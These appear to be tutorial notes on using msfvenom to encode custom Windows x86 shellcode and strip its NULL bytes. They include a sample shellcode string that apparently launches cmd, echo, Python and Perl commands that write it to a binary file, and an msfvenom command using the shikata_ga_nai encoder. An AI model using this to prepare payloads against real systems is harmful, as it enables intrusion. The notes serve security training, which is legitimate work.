



msfvenom encoding
msfvenom
The main purpose of msfvenom is to generate shellcodes(encoded or not) based on Metasploit payloads, but we can also use it to encode our custom payloads.
To encode the Shellcode and remove these NULL bytes and make it NULL-free we have to do the following steps:example of Shellcode: “\x68\x63\x6d\x64\x00\x8B\xDC\x6A\x00\x68\x6f\x70\x65\x6e\x8B\xCC\x6A\x03\x33\xC0\x50\x50\x53\x51\x50\xB8\x78\x70\x30\x76\xff\xD0” 1. Convert the Shellcode in a binary file(we have different options):
◇
echo command:
echo -ne "x68\x63\x6d…" > binshellcode.bin
-n → used to not output the trailing newline
-e → enables interpretation of backslash escapes
> binshellcode.bin → outputs the result into the file binshellcode.bin
◇
Python(we have to delete manually the new line character at the end of the file):
python -c 'print "\x68\x63\x6d…"' > binshellcodepython.bin
-c → execute commands between quotation marks '...'
Python
print function adds a
new line character(\n) that in hexadecimal is
000a at the end of the file, because we do not want it we have to remove it manually or use another script like the following one that use
write instead of print
 ◇
Python:
use of function write instead of print
python <<EOP
shellcode ="x68\x63\x6d…"
binshellcodefile = open('binshellcodepython2.bin','w')
binshellcodefile.write(shellcode)
binshellcodefile.close()
EOP
◇
Perl:
perl -e ' print "\x68\x63\x6d…"' > binshellcodeperl.bin
-e → execute commands between quotation marks '...'
2. Inspect binary of the Shellcode with hexdump(OPTIONAL)
3. Use
msfvenom to encode the binary version of the Shellcode into a NULL-free version
cat binshellcode.bin | msfvenom -p - -a x86 --platform windows -e x86/shikata_ga_nai -f c -b '\x00'
-b → this option is used to specify a list of (bad) characters to avoid when generating the shellcode. Since we want a null free shellcode, we will instruct msfvenom to avoid '\x00 '
-a → specifies the architecture to use, in our case x86
-p → specify the payload to use; in our case
- instructs msfvenom to read the custom payload from stdin, because we have piped with (|) the cat command to redirect our shellcode into it
--platform → is used to specify the platform(e.g.: linux, windows, osx, cisco, android...)
-e → specifies the encoder to use (e.g.: x86/shikata_ga_nai)
-f → sets the output format, in our case C
{kind=link}